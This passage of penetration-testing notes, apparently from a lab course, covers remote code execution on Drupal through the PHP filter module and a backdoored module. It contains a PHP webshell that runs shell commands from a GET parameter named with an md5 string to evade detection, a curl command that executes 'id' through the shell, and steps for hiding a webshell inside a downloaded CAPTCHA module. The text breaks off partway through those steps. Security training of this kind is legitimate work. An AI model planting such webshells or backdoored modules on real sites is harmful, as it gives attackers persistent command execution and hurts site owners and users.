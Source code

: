   * PHP filter module:

    * in older versions of Drupal (before version 8), we can login as admin and enable 'PHP filter' module for executing PHP code

    * then, we can save config and create a basic page (Content > Add content > Basic page)

    * we can use a simple PHP webshell by setting text format to 'PHP code'; use md5 hashes for parameter names instead of 'cmd' or 'c' to avoid detection:

      ```php
      <?php
      system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
      ?>
      ```

    * for RCE:

      ```sh
      curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
      ```

    * in later versions, as PHP filter module is not installed by default, we will have to set it up

    * download the most recent version from Drupal:

      ```sh
      wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
      # check version first
      ```

    * then, on the Drupal site, navigate to Available Updates for installing modules (location depends on version), and upload and install the module file
  
  * Backdoored module:

    ```sh
    # download the archive for any module from Drupal
    wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
    # for example, the CAPTCHA module

    tar xvf captcha-8.x-1.2.tar.gz
    # unarchive

    vim shell.php
    # create a simple webshell

    vim .htaccess
    # rewrite required for access to /modules
